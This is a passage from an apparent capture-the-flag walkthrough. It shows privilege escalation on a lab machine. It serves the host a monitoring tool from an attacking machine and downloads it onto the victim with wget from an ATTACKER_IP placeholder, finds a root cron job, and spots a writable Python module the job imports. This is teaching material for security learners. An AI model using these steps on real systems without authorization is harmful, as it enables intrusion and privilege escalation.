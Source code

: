 ![cef8d30db9def8499decf493eb8b9c4b.png](/resources/82f3e9cb4b8d4f52b0495a520e9156fd.png)

If we check the file permission we will find that we have full permissions because we are in the `valleyAdmin` group:

![94d2856238d0ab48150884b7cb25f1bc.png](/resources/dc36af7332ac44aeb968d4d4de6de7f5.png)

Now, let's use [pspy](https://github.com/DominicBreuker/pspy) to monitor the processes that are running on the machine. On the attacking machine, after downloading the 32 or 64 bit version, we can host it using Python:

```sh
python3 -m http.server 8888
```

Then on the victim machine, we first move to a directory like `/tmp` then run the [wget](https://linux.die.net/man/1/wget) command to download the file:

```sh
cd /tmp
wget <ATTACKER_IP>:8888/pspy32
```

![9715b0c35278627c31e664f1750187f1.png](/resources/8761c0a93eea48dbb2fe3da488fbcc2c.png)

After the download is completed, we need to give `pspy32` executable permissions using the [chmod](https://linux.die.net/man/1/chmod) command with `+x` flag to enable executable permissions and run the binary using `./pspy32`:

```sh
chmod +x pspy32
./pspy32
```

![1487cb9957649efa58929f64c71f12dc.png](/resources/5f1a49941e57443a83096b37b107d57a.png)

Let pspy run for a few minutes and we should find a scheduled task (or [cronjob](https://en.wikipedia.org/wiki/Cron)) being ran every minute:

![8aa963152dab13016b875dd78258cd26.png](/resources/a0a1798250c741318b7b8a105378bb41.png)

Press `CTRL + C` to stop pspy and close it.

Checking the file permissions for `photosEncrypt.py` shows that it is owned by the user `root`:

```sh
ls -lah /photos/script/photosEncrypt.py
```

![3e76647abc50d933355d3412e9ece95a.png](/resources/68cf934860eb41a1846e55c13fbfa671.png)

We can review the source code by using `cat` and find that this script is importing from `base64.py` which we have write access to:

```sh
cat /photos/script/photosEncrypt.py
```
